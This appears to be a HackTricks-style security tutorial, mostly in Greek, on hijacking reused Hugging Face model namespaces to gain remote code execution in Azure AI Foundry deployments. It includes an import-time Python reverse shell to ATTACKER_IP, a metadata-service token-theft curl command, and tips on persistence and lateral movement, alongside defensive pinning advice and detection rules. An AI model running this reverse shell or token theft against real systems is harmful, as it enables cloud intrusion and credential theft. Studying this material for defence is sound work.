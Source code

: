 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Σενάριο

- Το Azure AI Foundry Model Catalog περιλαμβάνει πολλά μοντέλα Hugging Face (HF) για one-click deployment.
- HF model identifiers are Author/ModelName. Εάν ένας HF author/org διαγραφεί, οποιοσδήποτε μπορεί να επανεγγράψει αυτόν τον author και να δημοσιεύσει ένα μοντέλο με το ίδιο ModelName στο legacy path.
- Pipelines και catalogs που τραβούν μόνο με όνομα (χωρίς commit pinning/integrity) θα επιλύονται σε attacker-controlled repos. Όταν το Azure αναπτύσσει το μοντέλο, ο loader code μπορεί να εκτελεστεί στο περιβάλλον του endpoint, παραχωρώντας RCE με τα permissions αυτού του endpoint.

Συνηθισμένες περιπτώσεις κατάληψης HF:
- Ownership deletion: Old path 404 until takeover.
- Ownership transfer: Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Εντοπισμός επαναχρησιμοποιήσιμων namespaces (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Ροή επίθεσης από άκρο σε άκρο κατά του Azure AI Foundry

1) Στο Model Catalog, βρείτε HF models των οποίων οι original authors διαγράφηκαν ή μεταφέρθηκαν (ο παλιός author αφαιρέθηκε) στο HF.  
2) Re-register τον εγκαταλελειμμένο author στο HF και αναδημιουργήστε το ModelName.  
3) Δημοσιεύστε ένα malicious repo με loader code που εκτελείται κατά το import ή απαιτεί trust_remote_code=True.  
4) Αναπτύξτε το legacy Author/ModelName από το Azure AI Foundry. Η πλατφόρμα τραβάει το attacker repo; ο loader εκτελείται μέσα στο Azure endpoint container/VM, παρέχοντας RCE με τα δικαιώματα του endpoint.

Παράδειγμα payload fragment που εκτελείται κατά το import (μόνο για επίδειξη):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Σημειώσεις
- AI Foundry deployments that integrate HF typically clone and import repo modules referenced by the model’s config (e.g., auto_map), which can trigger code execution. Some paths require trust_remote_code=True.
- Access usually matches the endpoint’s managed identity/service principal permissions. Treat it as an initial access foothold for data access and lateral movement within Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Απαριθμήστε τα environment variables και τα MSI endpoints για tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Ελέγξτε την προσαρτημένη αποθήκευση, τα αρχεία μοντέλου και τις προσβάσιμες υπηρεσίες Azure με το αποκτηθέν token.
- Σκεφτείτε τη διατήρηση πρόσβασης αφήνοντας δηλητηριασμένα αρχεία μοντέλου αν η πλατφόρμα επαναφορτώνει από το HF.

## Οδηγίες άμυνας για χρήστες του Azure AI Foundry

- Κλειδώστε τα μοντέλα σε commit όταν τα φορτώνετε από το HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Καθρεφτίστε ελεγμένα HF models σε ένα αξιόπιστο internal registry και αναπτύξτε από εκεί.
- Σαρώστε συνεχώς codebases και defaults/docstrings/notebooks για hard-coded Author/ModelName που έχουν διαγραφεί/μεταφερθεί; ενημερώστε ή κάντε pin.
- Επικυρώστε την ύπαρξη του author και την προέλευση του model πριν από την ανάπτυξη.

## Κανόνες Αναγνώρισης (HTTP)

- Διαγραμμένος author: author page 404; legacy model path 404 until takeover.
- Μεταφερθέν model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Διασταυρούμενες Αναφορές

- Δείτε την ευρύτερη μεθοδολογία και τις σημειώσεις για την αλυσίδα εφοδιασμού:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Αναφορές

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
